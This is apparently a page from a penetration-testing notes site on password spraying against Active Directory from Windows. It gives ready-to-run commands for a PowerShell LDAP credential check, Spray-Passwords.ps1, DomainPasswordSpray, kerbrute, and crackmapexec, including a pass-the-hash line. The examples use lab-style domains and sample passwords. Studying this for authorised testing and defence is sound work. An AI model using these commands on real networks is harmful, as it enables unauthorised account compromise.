

repository: amandaguglieri/hackinglife · page: active-directory-from-windows-attacks/index.html · generator: mkdocs

---
title: Attacking Active Directory from Windows
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - ldap
  - linux
---
# Attacking Active Directory from Windows

[Index of Active Directory](active-directory.md)

[Hardening and auditing Active Directory ](hardening-auditing-active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerate with ldap](ldap.md)
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Active directory: connecting to other hosts](active-directory-connections.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)

!!! tip "Linux in AD"
	- [Linux in active directory](linux-in-active-directory.md)

## 🍥 Password spraying


### Password spray with  .NET commands 

Check if creds pete:Nexus123! are valid in the Domain:

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName

New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
```

### Spray-Passwords.ps1

Basic usage:

```
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin

.\Spray-Passwords.ps1 -Pass Nexus123! -File users.txt
```


### DomainPasswordSpray

[See DomainPasswordSpray](domainpasswordspray.md)

```powershell-session
Import-Module .\DomainPasswordSpray.ps1

# Authenticated in the domain:
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
# If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out.

# Not authenticated in the domain:
Invoke-DomainPasswordSpray -UserList userlist.txt -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

### kerbrute

```
./kerbrute_windows_amd64.exe passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_ad_users.txt  "Welcome1"
```

### crackmapexec

```powershell
# Spraying password with crackmapexec
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success


crackmapexec smb $ip/23 -u /folder/userlist.txt -u administrator -H 88ad09182de639ccc6579eb0849751cf --local-auth --continue-on-success | grep +
# --continue-on-success:  continue spraying even after a valid password is found. Useful for spraying a single password against a large user list
# --local-auth:  if we are targetting a non-domain joined computer, we will need to use the option --local-auth. The --local-auth flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
# -H: hash
```
